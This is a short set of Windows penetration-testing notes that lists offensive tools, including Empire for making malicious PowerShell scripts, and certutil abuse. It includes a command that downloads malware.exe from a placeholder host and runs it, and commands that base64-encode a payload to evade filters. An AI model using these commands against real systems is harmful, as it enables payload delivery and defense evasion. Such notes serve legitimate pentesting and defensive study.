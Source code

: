 # Windows Pentest Notes
## Useful Tools
`metasploit` of course

and `powershell` is always your best friend

`empire` for creating malicious pwershell script, avalible on [github](https://github.com/EmpireProject/Empire)

## Certutil abuse
### Download files & execute
`certutil.exe -urlcache -split -f http://www.example.com/malware.exe`

then `malware.exe`
### Hash Files
`certutil.exe -hashfile file`(SHA-1)

`certutil.exe -hashfile file SHA256/MD5` (for SHA-256 or MD5 Hash)
### Files to baes64 code 
encode:

`certutil.exe -encode malware.exe malware.txt`

decode:

`certutil.exe -decode malware.txt malware.exe`
